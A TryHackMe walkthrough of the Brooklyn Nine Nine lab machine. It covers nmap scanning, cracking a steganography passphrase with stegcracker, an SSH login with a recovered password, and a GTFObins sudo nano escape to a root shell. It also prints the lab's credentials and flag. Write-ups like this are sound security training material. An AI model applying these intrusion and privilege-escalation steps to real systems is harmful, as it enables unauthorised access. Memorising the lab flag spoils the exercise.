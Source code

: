 ```yaml
---
title: "Tryhackme - Brooklyn Nine Nine Walkthrough"
date: 2020-10-18
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/not-found.gif"
excerpt: "Walkthroughs"
---
```


# TryHackMe - Brooklyn99 Walkthrough

Hello everyone, today I will explain the walkthrough for Brooklyn99 Virtual Machine from TryHackMe

**TOP KEYWORDS**: #steganography, #steghide, #stegcracker, #sudo privilege escalation, #GTFObins, #sudo root shell

## Information Gathering

Firstly, We start with nmap scanning:

```
root@kali:~/BrooklynNineNine# nmap -p- -T4 -A 10.10.76.41
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
...
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```

We see that we can have **Anonymous FTP session**.

We don't find any exploit for OpenSSH version.

Also I want to investigate the website.

When I viewed the page source of the website I can see that There is some commment ant it said you can try some **steganography**. I download the picture and, firstly, I will try using **steghide**, but I cannot know the passphrase, so I changed my tool and used **stegcracker**.

```
root@kali:~/BrooklynNineNine# stegcracker brooklyn99.jpg 
...
Your file has been written to: brooklyn99.jpg.out
admin
```

Bingo! Our passphrase is _admin_. then I tried to read the comment inside the picture.

```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

## Exploit

It means that we can have a SSH session.

```
root@kali:~/BrooklynNineNine# ssh holt@10.10.76.41
holt@10.10.76.41's password: 
Permission denied, please try again.
holt@10.10.76.41's password: 
Permission denied, please try again.
holt@10.10.76.41's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$
```

We find the user flag - _user.txt_.

## Privilege Escalation

Then I will try a privilege escalation. 
```
sudo -l
```

I saw that I can run `nano` using `SUDO`. I use **GTFObins** to find out how can I take root shell.
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
# whoami
root
# cd /root/
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845
```

Victory!